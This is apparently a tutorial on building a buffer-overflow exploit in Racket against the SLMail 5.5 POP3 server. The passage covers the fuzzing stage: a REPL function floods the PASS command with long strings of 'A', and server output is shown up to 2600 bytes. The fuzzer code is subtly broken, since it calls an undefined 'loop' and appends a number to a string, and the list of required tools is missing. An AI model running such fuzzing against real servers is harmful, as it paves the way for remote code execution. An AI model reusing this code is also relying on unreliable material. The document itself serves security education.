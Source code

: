 This is an exercise in writing an exploit in Racket to demonstrate its flexibility.
We will approach writing an exploit from scratch using Racket from port scanning to shell.


We will target SLMail 5.5, a version of SLMail (from ~2003) that is vulnerable to a buffer-overflow attack.
There is plenty of public exploit code available for SLMail 5.5; here are two links to code archived
in the exploit-database, both of which have been written in C. The exploit database is a reputable source of 
public exploit code for security researchers.

https://www.exploit-db.com/exploits/646/
https://www.exploit-db.com/exploits/638/

Each of these also contain a link to the SLMail 5.5 binary so you can learn the mechanics of the attack by hand.

We will require a couple tools outside of our Racket tool belt, these include


Consider we have used a portscanner (such as RCat) and discovered a mail server sitting on a target machine.
Using some version matching sleuthing we find out this server is a slmail server.



### Using the REPL to fuzz SLMail
```racket
> (define (fuzz n)
        (if (displayln (read-line in))
            (begin
              (displayln "USER test" out)
              (flush-output out)
              (displayln n)
              (displayln (string-append "PASS " (make-string n #\A)) out)
              (flush-output out)
              (displayln (read-line in))
              (sleep 1)
              (loop (+ n 100))) (displayln (string-append "Broke at " n))))
> (fuzz 100)
+OK POP3 server ie8winxp ready <00004.9451406@ie8winxp>

100
+OK test welcome here

-ERR unable to lock mailbox

200
+OK test welcome here

-ERR unable to lock mailbox

```
...
```racket

2400
+OK test welcome here

-ERR unknown command

2500
+OK test welcome here

-ERR unknown command

2600
+OK test welcome here

```

